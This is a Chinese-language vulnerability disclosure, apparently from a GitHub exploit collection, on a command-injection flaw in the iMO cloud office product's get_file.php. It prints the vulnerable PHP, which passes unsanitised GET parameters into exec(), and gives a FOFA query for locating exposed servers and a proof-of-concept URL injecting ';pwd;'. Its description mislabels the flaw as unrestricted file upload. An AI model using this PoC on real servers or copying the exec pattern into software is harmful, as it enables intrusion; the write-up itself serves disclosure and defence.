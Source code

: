 # imo 云办公室 get_file.php 远程命令执行漏洞

## 漏洞描述

imo 云办公室 /file/NDisk/get_file.php 过滤不严格导致允许无限制地上传文件，攻击者可以通过该漏洞直接获取网站权限。

## 漏洞影响

```
imo 云办公室
```

## FOFA

```
app="iMO-云办公室"
```

## 漏洞复现

登录页面

![image-20220524171455819](./images/202205241720834.png)

漏洞文件 get_file.php

```
<?php
// 放置在 mfs 服务器上用于获取文件列表，配合 nd_verify_large_file.php 使用
if(empty($_GET['cid']) || empty($_GET['nid']))
	exit;
$cid = $_GET['cid'];
$nid = $_GET['nid'];
$mainDir = dirname(__FILE__) . '/../upload/NDiskData/normal/' . $cid . '/';
exec("ls {$mainDir}*_{$nid}_*", $r);
$ret = array();
foreach($r as $v)
	$ret[md5_file($v)] = str_replace(dirname(__FILE__) . "/../upload/NDiskData/normal/{$cid}/", '', $v);
echo json_encode($ret);
```

验证POC

```
/file/NDisk/get_file.php?cid=1&nid=;pwd;
```

![image-20220524172138053](./images/202205241721104.png)